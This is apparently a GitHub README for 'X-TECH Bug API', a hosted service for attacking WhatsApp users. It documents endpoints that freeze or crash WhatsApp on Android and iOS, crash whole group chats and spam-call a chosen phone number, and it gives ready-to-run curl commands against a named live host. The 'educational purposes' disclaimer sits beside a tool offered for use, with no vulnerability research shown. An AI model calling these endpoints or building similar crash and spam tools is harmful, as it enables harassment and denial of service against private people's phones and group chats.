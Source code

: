 # X-TECH-API
🚀 X-TECH Bug API
The Xeon Bug API is a powerful endpoint API developed by X-TECH to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

🛑 Delay WhatsApp on Android devices.
🌋 Spam Call Users on WhatsApp.
🍎 Crash WhatsApp on iOS devices.
💥 Crash entire WhatsApp group chats.
⚠️ Warning: This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

🌟 Features
🔥 Delay Android Devices
🕸️ Spam Call Users
🍏 Crash iOS Devices
💬 Crash Group Chats
📌 Endpoints
1 Delay Android WhatsApp
Description: Delay and crashes WhatsApp on Android devices.
Endpoint:

GET ${api_link}/freezeDroid?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
2 Spam Call Users
Description: Spam call users on WhatsApp.
Endpoint:

GET ${api_link}/callSpam?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
3 Crash iOS WhatsApp
Description: Crashes WhatsApp on iOS devices.
Endpoint:

GET ${api_link}/iosCrash?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
4 Crash Group Chats
Description: Crashes an entire WhatsApp group chat.
Endpoint:

GET ${api_link}/crashGroup?target=${grouplink}
Parameters:

Key	Type	Description
target	String	The WhatsApp group chat link to target.
Setup For Deployment 👇
🎯 Generate Pair Code For Session
X-TECH

⚠️ Disclaimer
Note:
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

💻 Example Usage
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
👨‍💻 Developed By: Dream Guy X-TECH
Enjoy bugging responsibly! ✨
